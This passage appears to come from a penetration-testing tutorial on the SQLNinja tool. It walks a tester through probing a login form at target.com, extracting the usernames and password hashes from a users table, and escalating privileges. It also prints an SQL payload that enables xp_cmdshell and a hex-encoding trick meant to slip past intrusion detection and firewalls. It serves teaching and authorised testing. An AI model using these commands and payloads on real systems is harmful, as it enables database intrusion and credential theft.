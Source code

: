 2. SQLNinja identifies several potential injection points. Alice confirms a vulnerability in the login form:

    ```shell
    sqlninja -m test -p username -u http://target.com/app/login
    ```

3. With a confirmed vulnerability, Alice attempts to extract user credentials:

    ```shell
    sqlninja -m extract -t users -c "username,password" -u http://target.com/app/login
    ```

4. SQLNinja successfully retrieves a list of usernames and hashed passwords.
5. Alice then uses SQLNinja to attempt privilege escalation:

    ```shell
    sqlninja -m privesc -u http://target.com/app/login
    ```

6. Finally, Alice compiles her findings, including SQLNinja's output, into a comprehensive security report for the client.

## Advanced Features and Techniques

Beyond its core functionalities, SQLNinja offers several advanced features that can be invaluable in complex penetration testing scenarios:

### 1. Custom Payload Generation

SQLNinja allows users to create and use custom payloads, enabling testers to bypass specific security measures or exploit unique vulnerabilities.

#### Example: Creating a Custom Payload

```shell
sqlninja -m custom -p "'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--"
```

This custom payload attempts to enable the `xp_cmdshell` feature in SQL Server, which could be used for further exploitation.

### 2. Evasion Techniques

SQLNinja incorporates various evasion techniques to bypass intrusion detection systems (IDS) and web application firewalls (WAF).

#### Example: Using Hex Encoding

```shell
sqlninja -m evasion -t hex -p "SELECT * FROM users"
```

This command encodes the payload in hexadecimal format, potentially evading simple pattern-matching defenses.
